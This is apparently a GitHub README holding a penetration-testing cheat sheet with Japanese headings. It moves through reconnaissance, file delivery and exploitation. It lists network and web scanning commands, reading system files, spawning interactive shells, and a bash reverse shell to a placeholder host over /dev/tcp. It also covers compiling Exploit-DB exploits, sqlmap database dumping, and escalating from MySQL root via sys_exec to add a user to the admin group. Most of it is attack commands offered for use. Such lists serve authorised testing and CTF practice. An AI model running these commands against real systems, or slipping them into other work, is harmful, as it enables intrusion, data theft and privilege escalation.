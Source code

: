 🔓🔑

## Reconnaissance

ホスト確認

    nmap -sn [address]/24
    netdiscover -r [address]/24

ポート確認

    nmap -v -p 1-65535 -sV -sT -Pn [HOST]
    nmap -v -A [HOST]

Nmap Scripting Engine

    /usr/share/nmap/scripts #スクリプト所在
    nmap --script=smb-enum-* -p139,445 [address] #Samba

Webサーバ／[dirsearch](https://github.com/maurosoria/dirsearch)

    nikto -h [HOST]
    dirb http://XXX.com/
    python3 dirsearch.py -u http://XXX.com -e * -x 403,404

状態確認

    uname -a
    cat /etc/redhat-release
    cat /proc/version

SSH／認証鍵使わずに接続

     ssh -o PubkeyAuthentication=no user@10.0...

MySQL

     mysql -u root -p
     show databases;
     use ids;
     show tables;
     select * from idtable;

Samba

    smbclient //[address]/[dir] -U [user]

[SQL Injection Authentication Bypass Cheat Sheet](https://exploit.linuxsec.org/sql-injection-authentication-bypass-cheat-sheet/)

## Delivery

http転送

    python -m SimpleHTTPServer 9998
    wget http://address:9998/file


## Exploitation

Spawning A TTY Shell

    echo os.system('/bin/bash') #LShell
    /bin/sh -i
    python -c 'import pty; pty.spawn("/bin/sh")'
    ruby -e 'exec "/bin/bash"'


[bashリバースシェル](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

    nc -lvp 9999
    ;bash -i >& /dev/tcp/ip/9999 0>&1

[exploitdb](https://github.com/offensive-security/exploitdb)

    searchsploit CentOS 4.0
    cp /opt/exploitdb/exploits/linux_x86/local/XXX.c XXX.c
    gcc gcc XXX.c -o test
    ./test

sqlmap 

    sqlmap -u "http://XXX.com/db.php?id=XXX" --dbms=MySQL #GET
    sqlmap -u "http://XXX.com/db.php" --method POST --data "id=XXX" #POST

    sqlmap -u "http://XXX.com/db.php?id=XXX" --dbms=MySQL --dbs 
    sqlmap -u "http://XXX.com/db.php?id=XXX" --dbms=MySQL -D [db_name] --tables 
    sqlmap -u "http://XXX.com/db.php?id=XXX" --dbms=MySQL -D [db_name] --T [tb_name] --dump

MySQL Root to System Root with lib_mysqludf_sys

    use mysql;
    select * from func;
    select sys_exec('usermod -a -G admin [user]');


[LinEnum](https://github.com/rebootuser/LinEnum)

    ./LinEnum.sh -r repo -e /tmp/.le



